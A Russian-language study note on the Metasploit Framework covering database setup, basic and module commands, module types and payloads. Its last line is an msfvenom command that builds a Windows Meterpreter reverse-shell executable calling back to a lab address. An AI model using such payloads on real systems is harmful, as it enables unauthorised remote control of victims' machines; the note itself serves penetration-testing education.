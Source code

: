 # Средства эксплуатации

## Возможности Metasploit Freamwork

Metasploit Freamwork — на данный момент самый популярный и функциональный инструмент для тестирование на проникновение. Содержит множество модулей для проверки на уязвимости, большую базу эксплоитов.

Инциализация БД:
```bash
sudo msfdb init
```
Переход в Metasploit:
```
msfconsole
```

Команды описаны в pdf.

## Базовые команды

Отвечают за настройку пользовательского окружения, изменение глобальных и локальных контекстно-зависимых переменных, настройку рабочего пространства и управления сессиями.

* set — устанавливает значение контекстно-заивисмых переменных, таких как: ip адрес локально удаленого хоста, номер локального удлаеного порта и номер сессии. Для установки глобального значения для всех модулей можно использовать `setg`.
* sessions — отвечает за отображение информации об открытых сессиях, сессия — установленная связь между хостом жертвы и атакующей машиной.

## Модульные команды

Отвечают за нстройку и управление модулями, они конфигурируют эксплоиты, полезную нагрузку, вспомонательные модули.

* search — поиск модулей
* use — используется для взаимодействия с конкретным модулей

Большинство модулей написано на ruby и доступно в _/usr/share/metasploit_framework/modules_. Другие модули можно подгрузить командой `loadpath <path>`

После выбора модуля можно посмотреть его опции для этого есть команды:
* show options — показывает основные опции, необходимые для работы модуля
* show advanced — показывает дополнильные опции
Команды можно совместить, тогда будут отображены все опции.

Комада `run` запускает модуль.

## Строение и компоненты фреймворка

Основные типы модулей:
* Вспомогательные — содержит средства анализа угроз, сетевые сканеры, средства атак грубой силы.
* Экплоит — соднржит базу эксплоитов позволяющих выполнять код на целевой системе.

Полезная нагрузка — прикепляются к эксплоиту, они обеспечивают функционал и предоставляют доступ к целевым системам, т.е. это ключевой компонент, который позволяет управлять целевой системой.

## Эксплуатация уязвимостей

Для экплоитов копмпиляция использется `msfvenom`, например для компиляции экплоита для windows:
```bash
msfvenom -a x64 --platform windows -f exe -p windows/x64/meterpreter/reverse_tcp lhost=10.0.2.15 -o shell.exe
```
